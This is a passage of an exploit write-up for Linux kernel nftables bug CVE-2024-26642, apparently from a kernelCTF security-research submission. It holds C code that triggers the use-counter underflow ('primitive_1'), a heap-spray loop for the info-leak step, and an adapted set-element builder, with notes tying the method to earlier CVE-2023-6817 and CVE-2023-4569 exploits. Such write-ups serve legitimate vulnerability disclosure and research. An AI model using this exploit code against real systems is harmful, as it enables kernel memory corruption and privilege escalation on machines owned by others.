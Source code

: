 ```c
//make target_chain->use = target_chain->use - repeat_time
void primitive_1(struct nl_sock *socket, char *table, char *target_chain, int repeat_time){
    char *pad = malloc(0x100);
    memset(pad,0x41,0x100);
    int i,j;
    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*0x100);
    char *set_name = "set for primitive1";
    char *chain_name = "chain for primitive1";
    char *key = malloc(0x40);
    msg_list[0] = new_set_pipapo_for_timeout_and_chain_with_anonymous_msg(table, set_name, 0x40);
    for(i=0;i<repeat_time;i++){
        *(uint64_t *)key = i;
        msg_list[i+1] = new_setelem_with_chain_and_expiration_msg(table, set_name, pad, 0xc0, target_chain, key, 0x40, NULL, 0, 0,0x0100000000000000);
    }
    msg_list[repeat_time+1] = new_chain_msg(table, chain_name, 0);
    msg_list[repeat_time+2] = new_rule_lookup_for_chain_msg(table, chain_name, set_name, 1);
    msg_list[repeat_time+3] = del_chain_msg(table, chain_name);
    send_msg_list(socket, msg_list, repeat_time+4);

    free(msg_list);
    free(pad);
}
```
It will trigger the vulnerability as described above. In order to achieve the effect of executing "nft_chain->use--" multiple times on the same nft_object, I created multiple set elements using the same nft_chain at one time.


## Exploit
Because the exploit steps of CVE-2024-26642 is the same as CVE-2023-6817, the following content is just a copy of this [article](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_lts_cos/docs/exploit.md). 


### Leak info

This part of the exploit is the almost same as CVE-2023-4569. If you want to understand more details, read this [article](https://github.com/google/security-research/tree/master/pocs/linux/kernelctf/CVE-2023-4569_lts/docs/exploit.md). 

The only difference is that when exploiting CVE-2023-4569, we put the len field of `NFT_SET_EXT_USERDATA` at offset 0x30, while in this exploit, we need to put it at offset 0x34. In this [article](https://github.com/google/security-research/tree/master/pocs/linux/kernelctf/CVE-2023-4569_lts/docs/exploit.md), I used 'NFTA_SET_ELEM_OBJREF'. In the current exploit, I used 'NFTA_SET_ELEM_DATA' to construct the corresponding setelem:
```c
//step 5
    //get heap back
    for(i=0;i<0x1000;i++){
        //printf("%d\n",i);
        *(uint64_t *)pad = i;
        hash_key = i;
        new_setelem_with_elemdata(socket, table, hash_set, pad, 0xa1, &hash_key, 8, NULL, 0,0);
    }
```
```c
void new_setelem_with_elemdata(struct nl_sock * socket,char *table_name, char *set_name, void *udata, uint32_t ulen, char * input_key, int key_len, char *key_end, int key_end_len, int if_catchall){
	...//Here I set the length of NFTA_SET_ELEM_DATA to 0x10
	nla_put(elem_data, NFTA_DATA_VALUE, 0x10, &pad0);
    nla_put_nested(elem_nest, NFTA_SET_ELEM_DATA, elem_data);
    ...
}
```